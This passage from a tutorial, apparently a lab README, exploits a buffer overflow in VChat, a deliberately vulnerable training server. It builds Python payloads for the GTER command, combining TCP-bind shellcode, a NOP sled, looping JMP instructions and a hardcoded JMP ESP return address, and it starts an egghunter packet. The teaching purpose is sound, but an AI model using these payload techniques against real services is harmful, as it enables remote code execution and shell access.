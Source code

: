    * In VChat, the sufficiently sized heap allocations are de-allocated. Therefore, we need to perform an overflow in the **GTER** buffer, which can hold the shellcode and prevent the thread handling the **GTER** message from exiting and de-allocating our shellcode.
   * We will perform an overflow as is done in the [TURN exploitation](https://github.com/DaintyJet/VChat_TURN); however, we will add two `JMP` instructions and a [NOP Sled](https://unprotect.it/technique/nop-sled/). The NOP Sled allows us to jump to an arbitrary location in the buffer and fall down into the `JMP` instruction placed before the return address, allowing us to easily create an infinite loop that prevents de-allocation.
   * We can pick an arbitrary location in the buffer to jump to and assemble the instruction as done in `step 1` of the exploitation procedure.
	```py
	PAYLOAD_SHELL = (
    	b'GTER /.:/' +                        # GTER command of the server
    	SHELL +                               # Shell code
    	b'\x90' * (2003 - (len(SHELL) + 5)) + # Padding! We have the shellcode and 5 bytes of the jump we account for

    	# 62501205   FFE4             JMP ESP
    	# Return a bytes object.
    	# Format string '<L': < means little-endian; L means unsigned long
    	b'\xe9\x30\xff\xff\xff' +      # Jump back into NOP sled so we create an infinite loop
    	struct.pack('<L', 0x6250151e)+ # Override Return address, So we can execute on the stack
    	b'\xe9\x30\xff\xff\xff'        # Jump into NOP sled
	)
	```
     * `b'GTER /.:/'`: We are targeting the **GTER** buffer as this has the space we need for the tcp-bind shellcode and the infinite-loop code.
     * `SHELL`: The Shellcode is placed in the buffer. This can be done anywhere, but placing it at the front allows us to avoid accidentally jumping into it.
     * `b'\x90' * (2003 - (len(SHELL) + 5))`: Create a NOP Sled; we do not want to overshoot the return address, so we need to account for the length of the shellcode, and the 5-byte instruction for the `JMP` we will perform.
     * `b'\xe9\x30\xff\xff\xff'`: This is one of the two `JMP` instructions, this is placed before the return address to prevent us from executing the address as an instruction which may lead to a crashed system state.
     * `struct.pack('<L', 0x6250151e)`: A `JMP ESP` address, this is one of the ones we had discovered with the mona.py command `!mona jmp -r esp -cp nonull -o` in Immunity Debugger.
     * `b'\xe9\x30\xff\xff\xff'`: This is one of the two `JMP` instructions, this is placed after the return address so once we take control of the thread when the `JMP ESP` instruction is executed we enter an infinite loop, which prevents us from exiting the function and de-allocating the shellcode we injected for the EggHunter to find.

4. Generate the EggHunter packet (Python).
	```py
	PAYLOAD = (
		b'GTER /.:/' +
		EGGHUNTER +
		b'A' * (143 - len(EGGHUNTER)) +
		# 0x625014dd | FFE4 | jmp esp
		struct.pack('<L', 0x625014dd) +
		# JMP to the start of our buffer
		b'\xe9\x66\xff\xff\xff' +
		# This padding is not strictly needed
		b'C' * (400 - 147 - 4 - 5)